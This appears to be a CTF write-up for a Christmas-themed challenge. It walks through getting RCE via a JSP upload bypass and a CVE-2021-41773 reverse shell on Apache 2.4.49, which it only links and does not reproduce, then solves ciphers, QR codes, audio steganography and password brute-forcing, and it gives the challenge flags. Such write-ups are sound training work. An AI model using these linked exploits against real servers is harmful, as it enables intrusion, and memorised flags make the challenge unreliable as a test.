Finally realizing that the jsp-limit on my file uploading could be bypassed to get RCE. I found [a finished script](https://www.exploit-db.com/exploits/42966). Webshell in 1-2-3. Flag in /flag.txt.

> `${04_I77_KI77_74@7_C@7!}`

 
# Door 24 
> So you really want to get tickets for DJ Oiler's Monster Bash at Santa's Rave Party. I guess you'd better head on over to: http://santasticketoffice.norwayeast.azurecontainer.io before they sell out... You really don't want to miss out on DJ Oiler and DrCiRCUiT and the Stack Tracers!
> hint: So this seems strangely familiar, yet differen't... And btw you may need to consult Allsafe Cybersecurity's 1337 guy down the line... or not who knows :)

The website runs Apache 2.4.49, which is an old vulnerable favourite. [Reverse shell](https://github.com/thehackersbrain/CVE-2021-41773) gives me `/flag.txt`, but:

```
cat /flag.txt
${...}
Nope, no flag here. Did you really think it would be this simple?
Not when Dj Oiler is involved!
But you did find something... you managed to find this ticket:
VkJFVDovL2pvdmVlamZpZ2kuZWN6aGVwc2lkeC5ybmNjaXRjdmVlemJtYy5tZg==

Well in the mean time you can find the key for this cipher here:

 ▄▄▄▄▄▄▄   ▄ ▄▄▄▄ ▄▄▄ ▄ ▄  ▄▄▄▄▄▄▄
 █ ▄▄▄ █ ▀ ▀ ▄█▀█▀▀  ▄▄▄▄▀ █ ▄▄▄ █
 █ ███ █ ▀█▀ ▀ ▀█▄█▄▄█ ▀██ █ ███ █
 █▄▄▄▄▄█ █▀▄▀█ ▄ ▄ █ █ █ █ █▄▄▄▄▄█
 ▄▄▄▄▄ ▄▄▄█▀█  ▀ █▄▀ ▀▀█▀█▄ ▄ ▄ ▄
  ▄▀██▄▄ █ █ ▀███▄▀█▀▀▀▀▀ ▀▀  ▄▀█▀
  ▄▄▄  ▄▀▀▄▄ █▀▄█ ▄ █▀▀▄ ▄▄▀█▄▄▀
 █ ▄▀▄▄▄  ▀▄▄▄  ▀▀ ▀▀▀█▄▀  █▄▄  █▀
 ▀▀ █▄█▄███ █  ▀ █▄▀█▀▀▀▀ █ ▄█ ▀▄
   ▀▄ █▄▄ ▀▄ ▀███▄ ▀▀▄ ▄▀▄▄▀  █ █▀
  ▀▄▀▀█▄█▀█  █▀▄█ ▄▀▀▄▀▄█▄█ ██ ▀▄
 █ █▄▀▄▄▀██▄▄▄  ▀▀ ▀▀█▀█▀▀▀▀▄▄█ █▀
 █ █▄ ▄▄█▀█▄█  ▀ ▀▄ ▀█▀█ ████▄▀▀ ▄
 ▄▄▄▄▄▄▄ █▄▀ ▀███▄█▀▀█▄ ██ ▄ █ ▄▄▀
 █ ▄▄▄ █ ▄▄  █▀▄▀▄▄▀█▀▀█ █▄▄▄██▀█
 █ ███ █ █ ▄▄▄  ▄███▀▀ ▄   ▄▀▀▀█▀▀
 █▄▄▄▄▄█ ██▄█  ▀█▀▄  ▀▀▄█▄▀██▀▀▀▄

```

QR code gives me URL to a binary that has strings obfuscated with obfuscate.h. Bloody mess.

The base64 decodes to: `VBET://joveejfigi.eczhepsidx.rnccitcveezbmc.mf`
Probably Vigenere cipher. Fed it to dcode.fr with "http" as known plaintext and it found "oiler" as key and we get a new URL: http://santasrave.norwayeast.azurecontainer.io

Webpage has hint in alt-tag of image:
> find djoilersmonsterbash.cue and .bin files!

The png has exif tags:
```
Author                          : DrCiRCUiT enjoys the key CHRISTMAS
Artist                          : OUVFQWleXjY9PTpARURBMkRESEBDNTc6PzU2Q10/QENIMko2MkRFXTJLRkM2NEA/RTI6PzZDXTpA
Comment                         : 64->47->www
```
That comment gets an upvote. So decode base64, then rot47 to get the URL: http://elliotspasswordfinder.norwayeast.azurecontainer.io



Still no idea what DrCiRCUiT is. Elliot's Password Finder has 10 boxes/locks and sends a POST-request for each lock. Tried christmas/CHRISTMAS and most common passwords Elliot-style, but nothing.  It might be possible with prototype poisoning here, but the final opening of the page seems to based on cookies with the text, so I'm not sure I can use it for anything.

Brute-forced one: `Box #7 password: OILER`

Stuff I've left in the dust:
* The obfuscated binary (hiddenkey) - that probably just gave me the vigenere key anyway?
* Hint about djoilersmonsterbash cue/bin-files.

The webserver with the santa picture doesn't reveal much about itself so I run dirbuster and found robots.txt:
```
Disallow: /stuff
Disallow: /things
Disallow: /promo
```

/promo had the bin/cue files - the other directories don't exist. The index-page on /promo identifies the NodeJS version as 19.3.0. No known exploits.

Oh ffs.. The bin/cue contained 10 WAV-files. One for each password probably.

Not sure if the track names are clues or red herrings..
```
FILE "djoilersmonsterbash.bin" BINARY
  TRACK 01 AUDIO
    TITLE "01 - crypto-stego-constaint-pain"
    INDEX 01 00:00:00
  TRACK 02 AUDIO
    TITLE "02 - breakpoint-dancing"
    INDEX 01 03:16:52
  TRACK 03 AUDIO
    TITLE "03 - meltdown"
    INDEX 01 06:11:20
  TRACK 04 AUDIO
    TITLE "04 - overflow-my-buffer"
    INDEX 01 09:22:26
  TRACK 05 AUDIO
    TITLE "05 - pop-my-stack"
    INDEX 01 12:04:47
  TRACK 06 AUDIO
    TITLE "06 - hardware-problem"
    INDEX 01 14:29:47
  TRACK 07 AUDIO
    TITLE "07 - oct31"
    INDEX 01 17:57:39
  TRACK 08 AUDIO
    TITLE "08 - catch-my-exception"
    INDEX 01 21:01:69
  TRACK 09 AUDIO
    TITLE "09 - hackers-assemble"
    INDEX 01 23:44:68
  TRACK 10 AUDIO
    TITLE "10 - DrCiRCUiT and the Stack Tracers - CTF Blues(2)"
    INDEX 01 27:53:68
```

Track10 unlocks with DeepSound (["Audio stego tool trusted by Mr. Robot himself"](https://hub.docker.com/r/dominicbreuker/stego-toolkit)) using CHRISTMAS as key. Annoyingly one of them is just a hint that I need Elliot and the webpage I already found. The other is a keys.wav-file with an exif-tag: `Originator: REAPER`. Not able to open it or any other of the tracks files using REAPER. It doesn't unlock any doors either. Update: It's just the software used for making the file - reaper.fm. 

Only tracks 01, 02 and 10 are identified by DeepSound as having a hidden payload. No other stego-tool I tried found anything on any of them.

Found a [python script](https://ryan.govost.es/2018/03/09/deepsound.html) to extract SHA1-hashes from DeepSound-encrypted files. Track01 and 02 has the same hash. Not found in rockyou or the crackstation-list. Not sure if this works as it should. I can't even decrypt Track10 with known plaintext?

Tried brute-forcing with words from the CUE-file and that had some success!
```
1 = pain
2 = breakpoint
3 = 
4 = buffer
5 = stack
6 = hardware
7 = oiler
8 = exception
9 = assemble
10 = 
```

So missing 3 and 10. Played keys.wav (embedded in track10) slowly (0.6x speed) and heard "lyrics are keys". New bruteforce with words from the songs on 3 and 10 found `execute`(3) and `blues`(10)! Nothing happens when I enter everything in the decoder though. Tried a new post to the API with all words semicolon-separated in the "parts"-cookie and got a base64-encoded PNG back with the text `GiveMyRegardsToElliott!`. 


Used that password with DeepSound on tracks 01 and 02 to get two PNG-files. The comment on one of them was "Split the difference...", so I uploaded both to [https://futureboy.us/stegano/compare.pl](https://futureboy.us/stegano/compare.pl) and finally got the flag back!



> `${GiveMyRegardsToElliott!}`

